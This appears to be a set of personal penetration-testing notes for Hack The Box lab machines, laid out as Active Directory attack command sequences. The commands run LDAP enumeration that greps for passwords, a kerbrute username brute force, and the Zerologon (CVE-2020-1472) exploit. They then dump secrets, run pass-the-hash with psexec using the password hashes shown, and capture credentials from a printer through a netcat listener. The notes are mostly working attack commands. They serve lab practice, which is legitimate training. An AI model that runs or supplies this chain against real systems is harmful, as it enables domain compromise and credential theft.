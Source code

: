 #### windapsearch.py
```bash - kali
cd /opt && sudo git clone https://github.com/ropnop/windapsearch
```
```bash - kali
sudo apt install python3-ldap
```
```bash - kali
cd windapsearch && ./windapsearch.py -d resolute.megabank.local --dc-ip $TARGET -U
```
```bash - kali
./windapsearch.py -d resolute.megabank.local --dc-ip $TARGET -U --full | grep Password
```
```bash - kali
./windapsearch.py -d resolute.megabank.local --dc-ip $TARGET -U > users
```
#### ldapsearch
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=<HOSTNAME>,dc=<DOMAIN>" -s sub "*" | grep -i "description"
```
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=<HOSTNAME>,dc=<DOMAIN>" -s sub "*" | grep -i "password"
```
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=<HOSTNAME>,dc=<DOMAIN>" -s sub "*" > ldapsearch.txt
```
```
lock lockoutDuration: -18000000000
lockoutObservationWindow: -18000000000
lockoutThreshold: 0
lockoutDuration: -18000000000
lockoutObservationWindow: -18000000000
lockoutThreshold: 0
```
0 means "no lock out policy"
Script to verify user's creds:
##### zerologon
```bash - kali
git clone https://github.com/SecuraBV/CVE-2020-1472
```
```bash - kali
cd CVE-2020-1472 && pip install -r requirements.txt
```
Next, look at the nmap results below to find the CN value:
```bash - kali
tcp_389_ldap_nmap.txt
```
`CN=FOREST`
```bash - kali
python3 zerologon_tester.py <CN> $TARGET
```
`Success!  DC can be fully compromised by a Zerologn attack`
[[Zero]]
```bash - kali
enum4linux $TARGET
```
Now add the target to the hosts file:
```bash - kali
sudo mousepad /etc/hosts
```
```bash - kali
sudo apt install golang
```
```bash - kali
go get github.com/ropnop/kerbrute
```
```bash - kali
cd kerbrute
```
```bash - kali
make linux
```
```bash - kali
cd dist
```
```bash - kali
./kerbrute_linux_amd64 userenum -d Zero.csl --dc Zero.csl /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
```bash - kali
git clone https://github.com/dirkjanm/CVE-2020-1472
```
```bash - kali
cd CVE-2020-1472
```
```bash - kali
sudo python3 cve-2020-1472-exploit.py ZERO-DC $TARGET
```
```bash - kali
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'Zero.csl/ZERO-DC$@$TARGET'
```
```bash - kali
psexec.py Administrator@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990
```
#### HTB Printer Admin Page
sudo rlwrap -cAr nc -lvnp 389
Navigate to settings page:
![[Pasted image 20220218175015.png]]
Enter your Kali IP in the Server Address field.
Click update, get creds in listener.